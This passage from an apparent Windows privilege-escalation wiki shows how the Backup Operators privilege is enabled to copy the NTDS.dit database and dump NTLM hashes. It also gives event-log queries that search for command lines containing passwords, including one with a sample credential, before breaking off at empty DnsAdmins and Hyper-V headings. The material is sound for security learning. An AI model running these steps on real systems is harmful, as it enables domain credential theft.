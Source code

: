<figure><img src="../../../../.gitbook/assets/priv.png" alt=""><figcaption></figcaption></figure>

The SeBackupPrivilege exists but is disabled. The next script will enable this privilege.

```powershell
PS> git clone https://github.com/giuliano108/SeBackupPrivilege.git
PS> cd SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/
PS> Import-Module SeBackupPrivilegeCmdLets.dll
PS> Import-Module SeBackupPrivilegeUtils.dll
```

```powershell
PS> Set-SeBackupPrivilege
PS> Get-SeBackupPrivilege
```

Now the SeBackupPrivilege is enabled. It's possible to copy file. The file NTDS.dit has NTLM credentials but it is locked by default. It's possible to copy it by mounting a shadow copy with [diskshadow](https://doc.nightblue.org/docs/wiki/tools/diskshadow). Once the file NTDS.dit is accessible and copied, there are tools to dump NTLM hashes from this file : [secretsdump.py](https://doc.nightblue.org/docs/wiki/tools/secret-dump) or [DSInternals](https://doc.nightblue.org/docs/wiki/tools/dsinternals).

### Event Log Readers

To perform these commands, you must be in the group `Event Log Readers`.

```
PS> net localgroup "Event Log Readers"
```

You can use two tools to check the logs of the Windows Events : `wevtutil` and `Get-WinEvent`.

```
PS> wevtutil qe Security /rd:true /f:text | Select-String "/user"
PS> wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"

Get-WinEvent -LogName security where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
```

### DnsAdmins

The DNS runs as `NT AUTHORITY\SYSTEM`.

#### Hyper-V Administrators
